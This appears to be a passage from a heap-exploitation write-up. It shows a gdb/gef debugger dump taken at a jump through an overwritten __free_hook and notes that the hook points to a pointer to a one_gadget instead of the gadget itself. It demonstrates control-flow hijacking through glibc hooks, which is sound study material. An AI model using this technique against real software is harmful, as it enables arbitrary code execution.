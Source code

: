 ```c
$rax   : 0x0000555555fa02a0  →  0x00007f776fd29ce6  →  <execvpe+1142> mov rsi, r10
$rbx   : 0x00007f776fe383a0  →  0x8d4c5741fa1e0ff3
$rcx   : 0x00007f776fd53fb2  →  0x5677fffff0003d48 ("H="?)
$rdx   : 0x2f
$rsp   : 0x00007fff3250f9f8  →  0x00007f776fe38376  →  0x4d8b4800000000b8
$rbp   : 0x00007fff3250fa20  →  0x0000000000000000
$rsi   : 0x00007f776fe38376  →  0x4d8b4800000000b8
$rdi   : 0x0000555555fa05b0  →  0x0a65657266206200
$rip   : 0x00007f776fce08f1  →  <free+161> jmp rax
$r8    : 0x0000555555fa05b0  →  0x0a65657266206200
$r9    : 0x00007f776fc4a548  →  0x0000000000000000
$r10   : 0x00007f776fe2ebe0  →  0x0000555555fa05e0  →  0x0000000000000000
$r11   : 0x246
$r12   : 0x00007f776fe38150  →  0x8949ed31fa1e0ff3
$r13   : 0x00007fff3250fb08  →  0x000000000000001c
$r14   : 0x0
$r15   : 0x0
$eflags: [zero carry parity adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
 stack 
0x00007fff3250f9f8│+0x0000: 0x00007f776fe38376  →  0x4d8b4800000000b8    ← $rsp
0x00007fff3250fa00│+0x0008: 0x00007f776fe31b28  →  0x0000555555fa02a0  →  0x00007f776fd29ce6  →  <execvpe+1142> mov rsi, r10
0x00007fff3250fa08│+0x0010: 0x0000555555fa02a0  →  0x00007f776fd29ce6  →  <execvpe+1142> mov rsi, r10
0x00007fff3250fa10│+0x0018: 0x0000555555fa05b0  →  0x0a65657266206200
0x00007fff3250fa18│+0x0020: 0xececd8c03b604200
0x00007fff3250fa20│+0x0028: 0x0000000000000000   ← $rbp
0x00007fff3250fa28│+0x0030: 0x00007f776fc6a0b3  →  <__libc_start_main+243> mov edi, eax
0x00007fff3250fa30│+0x0038: 0x0000000000000000
 code:x86:64 
   0x7f776fce08e5 <free+149>       nop    DWORD PTR [rax]
   0x7f776fce08e8 <free+152>       mov    rsi, QWORD PTR [rsp+0x18]
   0x7f776fce08ed <free+157>       add    rsp, 0x18
 → 0x7f776fce08f1 <free+161>       jmp    rax
   0x7f776fce08f3 <free+163>       nop    DWORD PTR [rax+rax*1+0x0]
   0x7f776fce08f8 <free+168>       cmp    QWORD PTR [rip+0x151279], rsi        # 0x7f776fe31b78
   0x7f776fce08ff <free+175>       ja     0x7f776fce090a <free+186>
   0x7f776fce0901 <free+177>       cmp    QWORD PTR [rip+0x151268], rsi        # 0x7f776fe31b70
   0x7f776fce0908 <free+184>       ja     0x7f776fce08cb <free+123>
 threads 
[#0] Id 1, Name: "ld-linux-x86-64", stopped 0x7f776fce08f1 in free (), reason: SINGLE STEP
 trace 
[#0] 0x7f776fce08f1 → free()
[#1] 0x7f776fe38376 → mov eax, 0x0
[#2] 0x7f776fe31b28 → __after_morecore_hook()
[#3] 0x555555fa02a0 → out 0x9c, al
[#4] 0x555555fa05b0 → add BYTE PTR [rdx+0x20], ah

gef➤
```
`gdb`'s paused here at the jump to `__free_hook`. There's been a slight error in logic, here: instead of jumping to `<execvpe+1142>` (a one_gadget), `__free_hook` is causing the program to jump to a *pointer to* the one_gadget, which is naturally non-executable.
